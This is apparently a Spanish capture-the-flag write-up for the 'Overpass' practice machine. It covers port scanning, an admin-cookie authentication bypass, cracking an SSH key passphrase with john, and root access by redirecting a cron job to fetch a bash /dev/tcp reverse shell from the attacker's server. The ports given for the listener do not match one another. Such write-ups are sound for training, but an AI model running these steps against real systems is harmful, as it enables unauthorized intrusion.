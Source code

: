 ```yaml
---
title: "Overpass"
description: "Overpass"
pubDate: 2025-05-20
---
```


# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.36.26
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240501183622.png)

## Reconocimiento de servicios

````
nmap -sVC -p22,80 -Pn 10.10.36.26
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240501183722.png)

## Gobuster

````
gobuster dir -u http://10.10.36.26 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240501183933.png)

# Fase de ataque

Tenemos un Javascript en /admin que cuando inicia sesión con la contraseña correcta crea una Cookie.

1. Creamos una Cookie con ese nombre y cualquier valor
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240501185742.png)
1. Copiamos la clave privada SSH
1. Nos conectamos por SSH

````
ssh saad@10.10.39.180 -i id_rsa 
````

Pide passphrase

## Crack passphrase

1. Convertimos la clave privadaa formato john

````
ssh2john id_rsa > id_rsa.john
````

2. La crackeamos con john

````
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240501190250.png)
Found!
3. Nos conectamos por SSH

````
ssh saad@10.10.39.180 -i id_rsa 
````

\[-\] ==pwned!==

# Privilege Escalation

Como ellos crearon su propio password manager tienen las claves guardadas en .overpass
Encontramos la contraseña de James pero no sirve para mucho

Tiene un crontab del overpass. /etc/crontab
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240501191937.png)

1. Creamos un servidor web

````
python3 -m http.server 80
````

2. Creamos los directorios del crontab

````
mkdir /dowloads/src
````

3. Creamos el fichero buildscript.sh con nuestra reverse shell

````
bash -i >& /dev/tcp/10.9.2.97/1111 0>&1
````

4. Nos ponemos en escucha por el puerto 111 para recibir la Shell

````
nc -nlvp 443
````

5. Modificamos el /etc/hosts de la maquina para que overpass.thm redirija a nuestro servidor
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240501193602.png)

\[+\] ==pwned!==
